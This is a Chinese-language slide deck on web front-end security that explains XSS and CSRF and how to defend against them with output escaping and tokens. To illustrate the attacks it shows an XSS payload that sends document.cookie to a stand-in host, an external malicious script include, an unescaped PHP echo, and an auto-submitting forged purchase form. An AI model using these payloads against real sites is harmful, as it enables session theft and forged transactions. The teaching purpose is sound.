


浅谈 Web 前端安全
by myhere @ 2012年12月28日
目录
- XSS
- CSRF
XSS
- Cross-site scripting
- 原理:
利用网页漏洞, 向网页里注入恶意 js, 用户浏览时执行恶意脚本
XSS
原因
- 原样输出了来自用户的内容
<?php echo $_GET['tweet']; >- 用户的内容:
<script src="http://demo.ued.taobao.net/linqian/tmp/xss-demo.js"></script>
真实例子: 新浪微博 xss 漏洞
XSS
危害:
- 恶意代码作用域为被攻击页面
- 获取用户 cookie, 然后收集起来
<script> (new Image()).src = "http://example.com?secret=" + encodeURIComponent(document.cookie); </script>
XSS
如何防范:
- 意识: 所有来自用户的数据都是不可信的
- 转义来自用户的数据: get, post, cookie
- 用户内容中的 html 标签一定要转义为实体字符
<?php echo htmlspecialchars($_GET['tweet']);>
CSRF
- Cross-site request forgery - 跨站请求伪造
- 原理:
伪装来自受信任用户的请求来利用受信任的网站
CSRF
攻击方式:
- 引导用户点击恶意链接
- 恶意链接里向受信任网站发出请求(get, post)
-
http://tejia.taobao.com/
<a href="http://localhost/csrf.php" target="_blank">http://tejia.taobao.com/</a> <!--http://localhost/csrf.php--> <form action="http://buy.taobao.com" method="post" id="csrf"> <input type="hidden" name="itemid" value="123456" /> </form> <script> document.getElementById('csrf').submit(); </script>
CSRF
说个例子:
- 人人网 csrf
- 攻击过程: sinaapp 上放了个恶意网页; 访问该网页自动向人人网发个状态, 同时带上页面地址, 好友访问后执行相同过程, 因此迅速传播开来.
- 解决办法:

CSRF
防范:
- 加 token: 令牌, 特权, 表明请求是被授权的
- 给需要防止 csrf 攻击的 http 请求加 token 验证; token 只能在信任的网站获取, 其他网站获取不到.
- 后端保存着一份用户的 token, 对没有 token 的请求不做处理.
<form action="http://buy.taobao.com" method="post" id="csrf"> <input type="hidden" name="itemid" value="123456" /> <input type="hidden" name="token" value="23fasd4d5" /> </form>- 一般写操作的请求都需要加 token
CSRF
webX 的 token


CSRF
与 XSS 的不同:
- XSS 是向目标网站注入恶意脚本; 目标网站没有过滤用户内容导致
- CSRF 是恶意网站向其他网站发送恶意请求(get, post 等); 目标网站没有充分验证是否是合法请求